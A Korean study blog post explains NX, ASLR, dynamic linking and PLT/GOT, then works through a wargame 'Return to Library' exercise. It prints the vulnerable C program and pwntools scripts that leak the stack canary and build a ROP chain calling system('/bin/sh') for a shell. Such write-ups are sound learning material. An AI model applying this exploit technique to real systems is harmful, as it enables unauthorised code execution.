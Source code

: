 ```yaml
---
title: NX, ASLR 학습
published: 2025-09-04
author: siaa
description: 'NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었어요'
image: ''
tags: ["Pwn"]
category: 'PWN'
draft: false
---
```

## 1. **NX** (No-eXexute)
   **정의**: 실행에 사용되는 메모리 영역과 쓰기에 사용되는 메모리 영역을 분리하는 보호기법

   **확인 방법**: `checksec`을 이용하면 **NX**가 적용되었는지 확인 가능

   즉, NX가 적용되었다면 직접 올린 셸코드를 사용할 수 없다.

## 2. **ASLR** (Addreaa Space Layout Randomization)
   **정의**: 바이너리가 실행 될 때마다 스택, 힙, 공유 라이브러리 등을 임의의 주소에 할당하는 보호 기법

   **특징**
       - main함수를 제외한 다른 영역의 주소는 실행할 때마다 변경됨 (PIE가 적용되지 않을 시)
       - libc_base 주소 하위 12 비트 값과 printf 주소 하위 12비트의 값은 항상 같음
       - 리눅스는 페이지 단위로 임의 주소에 매핑함, 12비트 이하로는 주소 변경이 안됨
       - libc_base와 printf, read 의 주소 차이는 항상 같음

## 3. **라이브러리**
   **정의**: 컴퓨터 시스템에서 함수나 변수를 공유해 사용할 수 있도록 함

   **장점**: 같은 함수를 반복적으로 정의할 필요가 없어 개발 효율이 높아짐

   C언어 표준 라이브러리로는 **libc**이 있으며 우분투에 탑제 되어있다.

## 4. **링크**
   **정의**: 컴파일의 마지막 단계

   **역할**: 심볼과 관련된 정보들을 찾아서 최종 파일에 기록하는 일을 함

   **종류**
       - 동적링크: 실행 파일이 작지만 실행 중 라이브러리가 필요하며, 실행 -> 메모리에 매핑 -> 함수 주소 찾기 -> 실행순으로 진행됨
       - 정적링크: 실행 파일이 크지만, 실행 속도가 빠르고 외부 라이브러리 필요 없음

## 5. **PLT**와 **GOT**
   **정의**: 라이브러리에서 동적 링크 된 심볼의 주소를 찾을 때 사용되는 테이블<br

   **runtime resolve**: 라이브러리 함수 호출 -> 라이브러리에서 심볼 탐색 -> 함수의 정의 발견 -> 그 주소로 실행 흐름 옮기는 과정

   **GOT**: resolve된 함수의 주소를 저장하는 테이블

   => 그러나 PLT에서 GOT를 참조하여 실행흐름을 옮길때 GOT값을 검증하지 않기에 GOT의 값을 임의로 변경하면 원하는 코드를 실행시킬 수 있다.

## 6. 푼문제
   NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었다.

   다음은 문제이다.
```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
   7행을 보면 `const char* binsh = "/bin/sh";`가 있는데 이는 **"/bin/sh"**을 바이너리에 추가하기 위한 코드이다.

   16행을 보면 `system("echo 'system@plt'");`가 있는데 이는 **system 함수**를 PLT에 추가하기 위한 코드이다.

   **"/bin/sh"**의 주소와 **system 함수**의 주소를 알기에 rdi가 "/bin/sh"인 상태로 system함수를 호출하면 문제를 풀 수 있다.
   <br>

   GDB에서 `checksec`을 쳐서 카나리가 있는 것을 확인 했다.
   ```
   pwndbg> checksec
   File:     /home/siaa/dreamhack/Return_to_Library/rtl
   Arch:     amd64
   RELRO:      Partial RELRO
   Stack:      Canary found
   NX:         NX enabled
   PIE:        No PIE (0x400000)
   Stripped:   No
   ```
   <br>
   
   우선 카나리를 우회하기 위해 첫번째 입력에서 카나리를 얻었다.
   ```py
   from pwn import*
   p = process("./rtl")
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   ```
   <br>
   
   그리고 rdi값을 "/bin/sh"의 주소로 바꾸고 system함수를 호출했다.

   리턴 가젯을 사용하면 rdi를 pop한 후 "/bin/sh"주소로 바꾸고 system함수를 호출할 수 있다.

   이때 system 함수로 rip가 이동할 때는 항상 스택이 0x10단윌 정렬 되어있어야 한다.
   
   ```py
   from pwn import*
   p = process("./rtl")
   e = ELF('./rtl')

   # canary
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   a = b'\x00' * 56 + c + b'\x00' * 8

   # payload
   system_plt = e.plt['system']
   binsh = 0x400874 # /bin/sh 주소
   pop_rdi = 0x0000000000400853
   ret = 0x0000000000400596
   a = a + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system_plt)
   
   p.sendlineafter(b'Buf: ',a)
   p.interactive()
   ```
   이렇게 했더니 문제가 풀렸다.